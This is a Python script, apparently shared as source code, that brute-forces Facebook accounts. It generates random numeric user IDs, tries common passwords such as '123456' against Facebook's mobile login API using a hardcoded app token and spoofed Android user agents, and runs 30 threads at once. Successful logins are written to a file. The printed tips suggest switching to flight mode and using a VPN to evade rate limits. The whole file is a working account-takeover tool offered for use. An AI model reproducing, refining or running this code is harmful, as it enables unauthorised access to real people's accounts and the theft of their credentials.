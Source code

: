 #OWNER OF SHAHRIAR KHAN ARIF
import os
import sys
import random
import string
import uuid
import requests
from concurrent.futures import ThreadPoolExecutor

user = []
oks = []
cps = []
loop = 0

#USER AGENT CODE BY GPT#
def generate_android_user_agent():
    rr = random.randint
    android_version = f"{rr(7, 13)}.{rr(0, 9)}"  
    device_model = random.choice(["Nokia 6.1", "Samsung Galaxy S9", "Pixel 4a", "OnePlus 7T"])  # Random device models
    build_id = "".join(random.choices("ABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789", k=10))  # Random Build ID
    chrome_version = f"{rr(80, 100)}.0.{rr(4000, 5000)}.{rr(0, 150)}"  
    safari_version = "537.36"

    user_agent = (
        f"Mozilla/5.0 (Linux; Android {android_version}; {device_model} Build/{build_id}; wv) "
        f"AppleWebKit/{safari_version} (KHTML, like Gecko) Version/4.0 "
        f"Chrome/{chrome_version} Mobile Safari/{safari_version}"
    )
    return user_agent

#USER AGENT CODE BY GPT#
def generate_firefox_user_agent():
    rr = random.randint
    rv_version = rr(30, 60)  
    win_version = random.choice(['6.1', '6.0', '5.1', '5.0'])  
    gecko_date = f"{rr(2000, 2020)}{str(rr(1, 12)).zfill(2)}{str(rr(1, 28)).zfill(2)}"  
    
    
    user_agent = f"Mozilla/5.0 (Windows NT {win_version}; WOW64; rv:{rv_version}.0) Gecko/{gecko_date} Firefox/{rv_version}.0"
    return user_agent

def generate_firefox_user_agent7():
    
    return "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/91.0.4472.124 Safari/537.36"
def clear():
    os.system('cls' if os.name == 'nt' else 'clear')
    
def linex():
    print("-" * 50)

def ____banner____():
    print(f"""
▗▖ ▗▖ ▗▄▄▖▗▖ ▗▖▗▄▄▄▖▗▖ ▗▖ ▗▄▖ 
▐▌ ▐▌▐▌   ▐▌ ▐▌  █  ▐▌ ▐▌▐▌ ▐▌
▐▌ ▐▌▐▌   ▐▛▀▜▌  █  ▐▛▀▜▌▐▛▀▜▌
▝▚▄▞▘▝▚▄▄▖▐▌ ▐▌▗▄█▄▖▐▌ ▐▌▐▌ ▐▌""")

def menu():
    clear()
    ____banner____()
    linex()
    print(f"[1] OLD CRACK ")
    print(f"[0] Exit")
    linex()
    fuck = input(f'[+] INPUT : ')
    if fuck == "1":
        Crack_xnxx()
    elif fuck == "0":
        pass	

def Crack_xnxx():
    clear()
    ____banner____()
    linex()
    print(f'[+] EXAMPLE : 3000/5000/10000/99999')
    linex()
    limit = int(input(f'[+] CHOICE  : '))   
    clear()
    for a in range(limit):
        SK = "".join(random.choice(string.digits) for _ in range(9))
        user.append(SK)

    with ThreadPoolExecutor(max_workers=30) as Fuck_xnxx:
        ____banner____()
        linex()
        print("[<>]TOTAL IDS - " + str(len(user)))
        print("[<>]USE FLIGHT MODE EVERY 3 MIN")
        print("[<>]USE 1.1.1.1 VPN FOR GOOD RESULT")
        linex()
        for love in user:
            ids = str("100000" + love)
            passlist = ["123456", "123456789"," 1234567", "12345678"]
            Fuck_xnxx.submit(Mathod_fuck, ids, passlist)
    
    sys.exit("\n-------------------------------")

def Mathod_fuck(ids, passlist):
    global loop, oks, cps
    sys.stdout.write(f"\rSK [{loop}] | OK: [{len(cps)}]")
    sys.stdout.flush()
    try:
        for pas in passlist:
            data = {
                'adid': str(uuid.uuid4()),
                'email': ids,
                'password': pas,
                'cpl': 'true',
                'credentials_type': 'device_based_login_password',
                "source": "device_based_login",
                'error_detail_type': 'button_with_disabled',
                'format': 'json',
                'generate_session_cookies': '1',
                'generate_analytics_claim': '1',
                'generate_machine_id': '1',
                "family_device_id": str(uuid.uuid4()),
                "advertiser_id": str(uuid.uuid4()),
                "locale": "en_US",
                "client_country_code": "US",
                "device_id": str(uuid.uuid4()),
                "method": "auth.login",
                "api_key": "882a8490361da98702bf97a021ddc14d",
                "fb_api_req_friendly_name": "authenticate",
                "fb_api_caller_class": "com.facebook.account.login.protocol.Fb4aAuthHandler"
            }
            head = {
                'content-type': 'application/x-www-form-urlencoded',
                'Host': 'graph.facebook.com',
                'Authorization': 'OAuth 350685531728|62f8ce9f74b12f84c123cc23437a4a32',
                'user-agent': generate_android_user_agent(),
                'accept-encoding': 'gzip, deflate',
                'x-fb-http-engine': 'Liger'
            }
            url = "https://b-graph.facebook.com/auth/login"
            response = requests.post(url, data=data, headers=head, verify=True).json()
            if "access_token" in response:
                print(f"\r\rS_K-OK | {ids} • {pas}")
                with open("SK-OK.txt", "a") as f:
                    f.write(ids + "|" + pas + "\n")
                oks.append(ids)
                break
            elif "www.facebook.com" in response.get("error", {}).get("message", ""):
                print(f"\r\rS_K-OK | {ids} • {pas}")
                with open("SK-OK.txt", "a") as f:
                    f.write(ids + "|" + pas + "\n")
                cps.append(ids)
                break
        loop += 1
    except Exception as e:
        pass

if __name__ == "__main__":
    menu()
